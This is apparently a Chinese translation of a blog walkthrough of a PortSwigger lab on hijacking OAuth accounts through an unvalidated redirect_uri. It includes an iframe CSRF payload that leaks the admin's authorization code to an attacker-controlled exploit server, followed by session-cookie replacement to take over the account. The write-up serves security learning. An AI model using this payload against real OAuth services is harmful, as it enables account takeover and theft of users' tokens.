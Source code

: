 # 利用 OAuth 认证漏洞第三部分

> 原文：<https://infosecwriteups.com/exploiting-oauth-authentication-vulnerabilities-part-iii-e3db79c83359?source=collection_archive---------0----------------------->

# **简介**:

嗨，我的名字是哈沙尔·穆贾希德。我是一名网络安全专业的学生，今天我将展示一些可以用来利用 OAuth 2.0 并可能允许攻击者完全接管受害者帐户的技术。

![](img/529589434a7e9596ab987feaa91f580b.png)

# 泄露授权码和访问令牌:

如果 OAuth 2.0 没有正确实现，攻击者可能会获得其他用户的授权令牌，从而允许访问被入侵用户的个人信息。攻击者可以利用这些信息对个人或企业发起额外的攻击。攻击者可能会以受害者用户的身份登录到任何已向 OAuth 服务注册的客户端应用程序。

身份验证令牌泄漏的主要来源是一个开放重定向漏洞。如果 OAuth 服务提供商无法**验证它希望将令牌传递到的重定向 URI** ，攻击者可以简单地创建一个 CSRF 漏洞，误导受害者启动 **OAuth 舞蹈**，将令牌泄漏到自己的服务器，并通过代码生成**合法会话**。

让我们看一个攻击的例子。

# 实验:通过 redirect_uri 劫持 OAuth 帐户

这个[实验室](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)使用一个 [OAuth](https://portswigger.net/web-security/oauth) 服务来允许用户使用他们的社交媒体账户登录。OAuth 提供者的错误配置使得攻击者能够窃取与其他用户帐户相关的授权码。

为了解决实验室，窃取与管理员用户相关的授权码，然后使用它来访问他们的帐户并删除卡洛斯。

admin 用户将打开您从漏洞服务器发送的任何内容，并且他们始终与 OAuth 服务保持活动会话。

您可以使用以下凭据登录自己的社交媒体帐户:`wiener:peter`。

![](img/f47dd9d66b3317689bbda966f5b6143e.png)

让我们登录网站。

在分析了登录过程发出的 HTTP 请求后，我们可以看到

```
GET auth/?client_id=bosywau2jq24g1mzj9g0y&redirect_uri=[https://0ac100a704b40f56c0c8db62008d003e.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email](https://0ac100a704b40f56c0c8db62008d003e.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email)
```

请求导致重定向到参数中存在的 URI，并在代码参数中使用新生成的访问令牌。

![](img/9874d20a23dc9b0e0825424850471e7f.png)

再直接的

让我们测试 OAuth 服务是否验证了重定向 URI。

将 URI 更改为任何一个，并查看应用程序是否重定向到该 url。

![](img/9efd667976cacea2a0ac070b46c18db7.png)

我们可以看到我们的 OAuth 服务没有验证 URI。因此，我们可以利用这一点来设计一个 csrf 攻击，让用户访问该链接，并将令牌泄露给我们的服务器。

我们需要生成一个 CSRF 有效载荷。

```
<html>
<body>
<iframe src="[https://oauth-0a92006704ef0f46c022db4602810098.web-security-academy.net/auth?client_id=bosywau2jq24g1mzj9g0y&redirect_uri=http://exploit-0a30006504b90f27c0d8dbda017300cb.web-security-academy.net&response_type=code&scope=openid%20profile%20email](https://oauth-0a92006704ef0f46c022db4602810098.web-security-academy.net/auth?client_id=bosywau2jq24g1mzj9g0y&redirect_uri=http://exploit-0a30006504b90f27c0d8dbda017300cb.web-security-academy.net&response_type=code&scope=openid%20profile%20email)"></iframe></body>
</html>
```

我们需要在`src`参数中包含我们的 OAuth 提供者的主机名，然后我们需要用我们的客户端应用程序 ID 向`/auth`发出请求，随后是我们的漏洞利用服务器的重定向 URI。

现在将漏洞存储在漏洞服务器上并测试它。

![](img/723d364331de3808836a8bfb70999acb.png)![](img/adb1fbeed4c781b33189a2de40efccc0.png)

内联框架

在我们的访问日志中，我们可以看到一个代码被泄漏。

![](img/fe842bc1fcc5d8a04416391b930a3b43.png)

这意味着我们的漏洞正在发挥作用。

我们把它送给受害者吧。

![](img/eee32bc061c21273486e5fa1b4dac7ec.png)

你会收到代码，现在你需要做的就是将代码粘贴到`callback`请求中。

![](img/6d1ff56905c1349e947cab0c78a3e99c.png)

我们可以看到现在生成了一个新的会话，只需复制该会话并用之前的会话替换它。

```
rbNzL8wKTP0SXLULBFvOgNZzJ89Hbpgg
```

![](img/94b81f32118f86dfbd3dceb9fc2d24d7.png)

管理

我们可以在这里看到一个管理面板。

现在刷新页面，删除 Carlos。

![](img/d57409f07298d562798ab01a960bc57a.png)

删除卡洛斯

![](img/ba82d8e15756e0b9bec54d45388a417a.png)

这就是使用泄漏的访问令牌生成认证会话的方法。

下次见！快乐黑客❤

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 条线索、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！